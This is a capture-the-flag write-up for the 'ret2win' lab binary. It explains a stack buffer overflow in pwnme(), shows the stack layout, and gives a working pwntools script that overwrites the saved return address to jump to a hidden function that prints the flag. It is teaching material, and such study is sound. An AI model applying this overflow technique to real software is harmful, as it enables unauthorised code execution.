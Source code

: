 # ret2win

A simple exploit involving overflowing a buffer and overwriting the saved `rip` value.

There are two main functions in this program, `main` and `pwnme`. Obviously we need to exploit the latter.

Looking at the source code of `pwnme`:

```c
void pwnme(void)
{
    void *buf; // sub rsp, 0x20
    
    memset(&buf, 0, 0x20); 
    puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
    puts("What could possibly go wrong?");
    puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
    printf(0x400918);
    read(0, &buf, 0x38);
    puts("Thank you!");
    return;
}
```

This allocates 0x20 bytes of stack space, but reads in 0x38 bytes. Which means we can overflow this buffer and write into the saved instruction pointer further down on the stack. So, when the function `ret`s and pops `rip`, it won't jump back to `main`, but rather somewhere else. But where?

Turns out, there's a secret function that was never called. Looking at the symbol table, we find something rather interesting:

```text
sym.main
sym.pwnme
sym.register_tm_clones
sym.ret2win
```

That ret2win looks very suspicious. I wonder what it contains.

```c
void ret2win(void)
{
    puts("Well done! Here\'s your flag:");
    system("/bin/cat flag.txt");
    return;
}
```

...oh. Well, our life just got a whole lot easier.

Great. Now that we know _where_ to jump to, let's figure out _how_ to get there.

So, as mentioned earler, at the call to `read()`, the stack looks like this:

```text
------------------------

[buf (32 bytes)]      <- rsp
[saved rsp (8 bytes)] <- rbp
[saved rip (8 bytes)]

------------------------
```

What we want to do is to overflow `buf` and write into the saved `rip` memory region the address of `ret2win`.

We can just write a simple exploit script with `pwntools` like so:

```python
# The "kitchen sink" approach.
from pwn import *

# set the instruction set arch we're working with.
# since we're just sending in bytes, it's not important,
# but it's good practice to do it.
context.arch = "amd64"

# spawn the process. in a normal CTF, we'd use remote().
conn = process("./ret2win")

# receive bytes until we're prompted for input
conn.recvuntil(b"> ")

# construct our exploit string.
# 40 bytes of random data (by convention 0x41 'A' just cause)
# and the address of ret2win, packed to 64 bytes little-endian.
# we can easily do this with a convenience function provided by pwntools.
exp = b"A" * 40 + p64(0x400756)

# send the string.
conn.send(exp)

# we're not popping a shell, just reading a flag, so receive the bytes
# outputted by the program and print them to the screen.
print(conn.recvall())
```

Cool. Now all we gotta do is run it.

```text
$ python exploit.py

[+] Starting local process './ret2win': pid 170197
[+] Receiving all data: Done (73B)
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 170197)
b"Thank you!\nWell done! Here's your flag:\nROPE{a_placeholder_32byte_flag!}\n"
```
